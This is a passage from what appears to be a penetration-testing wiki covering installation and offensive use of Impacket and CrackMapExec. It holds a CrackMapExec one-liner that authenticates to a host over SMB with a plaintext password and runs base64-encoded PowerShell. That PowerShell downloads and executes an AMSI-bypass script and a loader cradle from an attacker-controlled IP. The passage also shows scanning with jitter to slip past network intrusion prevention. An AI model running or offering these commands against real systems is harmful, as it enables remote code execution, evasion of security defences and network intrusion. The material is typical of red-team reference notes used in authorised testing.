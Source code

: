 {% file src="/.gitbook/assets/Impacket Exec Commands Cheat Sheet.pdf" %}

Install:

```
$ pipx install -f "git+https://github.com/fortra/impacket.git"
$ pipx install -f "git+https://github.com/ThePorgs/impacket.git"
```



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

![CrackMapExec Mindmap](https://raw.githubusercontent.com/Ignitetechnologies/Mindmap/main/Crackmapexec/Crackmapexec%20UHD.png)

Install bleeding-edge:

```
$ sudo apt install python3-venv && pip3 install pipx
$ pipx install -f "git+https://github.com/Porchetta-Industries/CrackMapExec.git"
$ cme
```

[aardwolf](https://github.com/skelsec/aardwolf) requires Rust compiler to be also installed:

```
$ sudo snap install rustup --classic
$ rustup toolchain install stable
```

Install for debugging and development:

```
$ git clone --recursive https://github.com/Porchetta-Industries/CrackMapExec ~/tools/CrackMapExec && cd ~/tools/CrackMapExec
$ poetry install
$ poetry run crackmapexec
```

Execute a PowerShell command using base64 encoding on-the-fly:

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x "powershell -enc `echo -n 'iex(new-object net.webclient).downloadstring("http://10.10.13.37/amsi.ps1");iex(new-object net.webclient).downloadstring("http://10.10.13.37/cradle.ps1")' | iconv -t UTF-16LE | base64 -w0`"
```

Bypass network IPS restrictions:

```
$ sudo nmap -n -sn 192.168.1.0/24 | grep for | awk '{print $5}' > 192.168.1
$ for ip in `cat 192.168.1`; do cme smb $ip; sleep 1; done
Or
$ cme -t 1 --jitter 1 smb 192.168.1.0/24
```


#### Custom Switches
